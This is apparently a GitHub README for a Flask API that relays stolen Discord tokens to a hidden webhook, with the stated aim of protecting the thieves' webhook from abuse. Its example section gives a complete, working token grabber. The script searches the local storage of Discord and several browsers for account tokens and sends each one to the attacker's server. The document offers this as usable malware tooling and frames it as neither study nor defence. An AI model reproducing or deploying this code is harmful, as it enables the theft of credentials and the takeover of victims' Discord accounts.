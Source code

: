 # Discord Webhook Protection

 A simple Discord webhook REST API using Flask to protect Discord webhook URLs to prevent people from abusing it (spamming, deleting etc.).

## Usage

Instead of hardcoding your webhook URL in your applications and sending a lot of HTTP requests using the token in i.e. token grabbers, you can set up a webserver running this API that will do it all for you, while not exposing your webhook URL.

The API will validate and send the token information over the webhook URL provided in `config.json` .

To create new API endpoints, create a new Python file in directory `routes` and import it in `routes\__init__.py` under the line `# import here` .

## Example

Here's an example of a token grabber using the API instead of directly sending a webhook request.

``` py
import os
import re
import requests

# configuration
API_IP = '127.0.0.1' # change to your server IP
API_PORT = 5001  # change to your API port defined in config.json
SECRET = 'aSPQq7gE86coXJbuikEbf9IEkablz6Rw' # change to your secret defined in config.json

# constants
API_URL = f'http://{API_IP}:{API_PORT}/grab?secret={SECRET}&token=%s'
LOCAL = os.getenv('LOCALAPPDATA')
ROAMING = os.getenv('APPDATA')
PATHS = {
    'Discord': ROAMING + '\\Discord',
    'Discord Canary': ROAMING + '\\discordcanary',
    'Discord PTB': ROAMING + '\\discordptb',
    'Google Chrome': LOCAL + '\\Google\\Chrome\\User Data\\Default',
    'Opera': ROAMING + '\\Opera Software\\Opera Stable',
    'Brave': LOCAL + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
    'Yandex': LOCAL + '\\Yandex\\YandexBrowser\\User Data\\Default'
}

tokens = []

for platform, path in PATHS.items():
    if os.path.exists(path) is False:
        continue

    path += '\\Local Storage\\leveldb'

    for file_name in os.listdir(path):
        if not file_name[-4:] in ('.log', 'ldb'):
            continue

        with open(f'{path}\\{file_name}', errors='ignore', encoding='utf-8') as file:
            lines = file.readlines()

        for line in lines:
            line = line.strip()

            if line == "":
                continue

            for token in re.findall(r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}|mfa\.[\w-]{84}', line):
                if token in tokens:
                    continue

                tokens.append(token)

for token in tokens:
    try:
        res = requests.get(API_URL % token)  # sends token to your API
    except:
        pass
```

## Requirements

* Python 3
* Git (optional)
* Server to host API

## Installation

1. Install repository via `$ git clone https://github.com/ecriminal/Webhook-Protection.git`
2. Install required modules using `$ pip install -r requirements.txt`
3. Edit `config.json` file
4. Start webserver via `$ py main.py`

## TODO

[ ] Set up a MySQL database to store tokens, used to prevent dupes
[ ] IP-address based rate limit to prevent abusers from flooding the API
[ ] Support multiple tokens in a single request using `,` seperator
